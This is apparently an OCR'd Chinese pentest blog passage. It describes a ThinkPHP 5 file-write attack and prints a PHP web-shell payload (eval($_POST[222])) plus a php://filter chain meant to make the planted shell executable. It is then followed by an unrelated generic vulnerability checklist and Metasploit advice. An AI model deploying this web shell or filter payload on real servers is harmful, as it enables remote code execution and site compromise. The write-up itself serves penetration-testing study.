 最终 shell 的生成位置在 web 根目录下，具体文件名为：

```text
/<%3fcuc%20riny($_CBFG[222]);%3f>1f4a7d71e74e3047f143b38ab405a056.php
```

需要注意的是，生成的 shell 中的内容如下：

```text
<?cuc
//000000000000
 rkvg();?>
f:105:"cuc://svygre/jevgr=fgevat.ebg13/erfbhepr=./<?php eval($_POST[222]);?>144r670517833r1320qp30802o8671p5.cuc
```

如果服务器支持短标签，则前面的标签为有效标签，但由于代码是错误代码，因此会报 500 错误。shell 无法被利用。

一般情况下，我们可以修改攻击载荷中的关键部分为如下内容：

```php
php://filter/write=3Dstring.strip_tags/string.strip_tags/convert.quoted-printable-decode/resource=3D=3c?php eval($_POST[222]);?=3e
```

即可通过多重过滤器使 shell 能够正常运行。但是，因为此处引入了一个无效过滤器，PHP 会爆出一个 warning ，并抛出 call stack ，此时，[tp5](https://www.zhihu.com/search?q=tp5&search_source=Entity&hybrid_search_source=Entity&hybrid_search_extra={"sourceType"%3A"article"%2C"sourceId"%3A"113925021"}) 无法再继续执行，不会生成最终的 shell 。这也是比较遗憾的一点。

原文 — 渗透测试笔记:从一个app开始的渗透测试之路 - 星阑科技的文章 - 知乎 https://zhuanlan.zhihu.com/p/113925021



旁友，你挖漏洞的清单是不是这样的：
暴力破解漏洞
sql注入漏洞
命令执行漏洞
xss漏洞（跨站脚本）
csrf漏洞（跨站伪造请求）
xxe漏洞
文件上传漏洞
文件包含漏洞
各cms的公开漏洞
当然肯定也有一些没有写到的。

如果是一个大佬的漏洞清单，除了上面那些，还有以下这几项：
逻辑漏洞
ssrf漏洞
信息泄露
js文件可能存在的未授权访问
组合漏洞
……
然而这些也只是一部分...

上面的web渗透你搞懂了之后就可以进行后渗透，也就是持续控制进行内网横向渗透，因为web渗透可能不是你的最终目的，这时候你就得掌握相关系统层面漏洞，比如ms17-010永恒之蓝等各种微软ms漏洞。

想要进一步强化自己的话，**kali Linux**是一个很好的学习平台，比如它的[metasploit](https://www.zhihu.com/search?q=metasploit&search_source=Entity&hybrid_search_source=Entity&hybrid_search_extra={"sourceType"%3A"answer"%2C"sourceId"%3A"1638122123"})平台可以学习很多直接攻击手段，上面集成了很多攻击工具，这些工具就够你玩一辈子了（当然互联网日益更新，kali也在持续优化）。
